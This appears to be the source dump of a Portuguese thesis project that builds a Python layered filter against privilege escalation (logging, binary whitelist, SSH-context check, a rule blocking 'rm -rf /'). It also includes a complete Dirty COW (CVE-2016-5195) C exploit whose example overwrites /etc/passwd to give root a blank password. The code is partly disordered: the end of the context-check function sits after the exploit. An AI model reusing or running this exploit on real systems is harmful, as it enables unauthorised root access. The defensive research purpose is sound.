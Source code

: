 # thesis_dirtyc0w_model
Model that prevent privilege escalation


------------------------------------------
LOGGER

import datetime

LOG_FILE = "/var/log/tef.log"

def log_event(event):
    """
    Regista um evento no ficheiro de log com data/hora.
    :param event: Texto do evento a registar
    """
    with open(LOG_FILE, "a") as log:
        log.write(f"{datetime.datetime.now()} - {event}\n")


------------------------------------------------------
MAIN

#!/usr/bin/env python3
import sys
import os

from context_validator import validate_context
from binary_validator import validate_binary
from action_authorizer import authorize_action
from logger import log_event

def main():
    if len(sys.argv) < 2:
        print("[TEF] Erro: Nenhum comando fornecido.")
        sys.exit(1)

    command = sys.argv[1]
    arguments = sys.argv[1:]

    # Camada 1 - Verificação de contexto
    if not validate_context():
        print("[TEF] Bloqueado: execução em contexto não autorizado.")
        log_event(f"[BLOQUEADO] Contexto não autorizado para {command}")
        sys.exit(1)

    # Camada 2 - Validação de binário
    if not validate_binary(command):
        print(f"[TEF] Bloqueado: {command} não está autorizado.")
        log_event(f"[BLOQUEADO] Binário não autorizado: {command}")
        sys.exit(1)

    # Camada 3 - Autorização de ação
    if not authorize_action(command, arguments):
        print(f"[TEF] Bloqueado: ação não autorizada ({' '.join(arguments)})")
        log_event(f"[BLOQUEADO] Ação não autorizada: {arguments}")
        sys.exit(1)

    # Se tudo passou, executa o comando real
    log_event(f"[PERMITIDO] {command} {' '.join(arguments)}")
    os.execvp(command, arguments)

if __name__ == "__main__":
    main()

---------------------------------------------------------
ACTION


def authorize_action(command, arguments):
    """
    Autoriza ou bloqueia ações específicas mesmo quando o binário é válido.
    Aqui podes definir regras adicionais (ex.: parâmetros proibidos, horários).
    :param command: Binário que vai ser executado
    :param arguments: Lista de argumentos passados ao comando
    :return: True se a ação for permitida, False caso contrário
    """
    # Exemplo: bloquear se tentar usar 'rm -rf /'
    if command == "/bin/rm" and "-rf" in arguments and "/" in arguments:
        return False

    # Neste protótipo, todas as ações passam se não houver regra explícita a bloquear
    return True
----------------------------------------------
BINARY

# Lista de binários autorizados a executar com privilégios elevados
SAFE_BINARIES = [
    "/usr/bin/sudo",
    "/usr/bin/passwd"
]

def validate_binary(command):
    """
    Verifica se o binário solicitado está autorizado.
    :param command: Caminho completo do binário
    :return: True se for permitido, False caso contrário
    """
    return command in SAFE_BINARIES

-----------------------------------------------------

CONTEXT

import os

def validate_context():
    """
    Verifica se a execução está a ocorrer num contexto autorizado.
    Exemplo simples: bloquear execução remota via SSH.
    :return: True se o contexto for válido, False caso contrário
    """
    # Bloqueia execuções feitas através de ligação SSH
    if os.getenv("SSH_CONNECTION"):
        return False


--------------------------------------------

EXPLOIT teste

/*
 * dirtyc0w.c
 *
 * Exploit PoC para CVE-2016-5195 (Dirty COW)
 * 
 * Uso:
 *   gcc -pthread dirtyc0w.c -o dirtyc0w
 *   ./dirtyc0w <ficheiro alvo> <conteúdo novo>
 *
 * Exemplo:
 *   ./dirtyc0w /etc/passwd "root::0:0:root:/root:/bin/bash\n"
 */

#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mman.h>
#include <sys/stat.h>

void *map;
char *payload;
struct stat st;
int fd;

void *madviseThread(void *arg) {
    for (int i = 0; i < 1000000; i++)
        madvise(map, st.st_size, MADV_DONTNEED);
    return NULL;
}

void *writeThread(void *arg) {
    int f = open("/proc/self/mem", O_RDWR);
    for (int i = 0; i < 1000000; i++) {
        lseek(f, (off_t)map, SEEK_SET);
        write(f, payload, strlen(payload));
    }
    return NULL;
}

int main(int argc, char *argv[]) {
    if (argc < 3) {
        printf("Uso: %s <ficheiro alvo> <conteúdo novo>\n", argv[0]);
        return 1;
    }

    payload = argv[2];
    fd = open(argv[1], O_RDONLY);
    if (fd < 0) {
        perror("open");
        return 1;
    }
    fstat(fd, &st);

    map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, fd, 0);
    if (map == MAP_FAILED) {
        perror("mmap");
        return 1;
    }

    pthread_t t1, t2;
    pthread_create(&t1, NULL, madviseThread, NULL);
    pthread_create(&t2, NULL, writeThread, NULL);

    pthread_join(t1, NULL);
    pthread_join(t2, NULL);

    printf("[+] Exploit terminado. Verifica o ficheiro!\n");
    return 0;
}



    # Poderias adicionar aqui outras regras de contexto:
    # - Terminal físico vs remoto
    # - Sessão interativa vs scripts automáticos
    return True


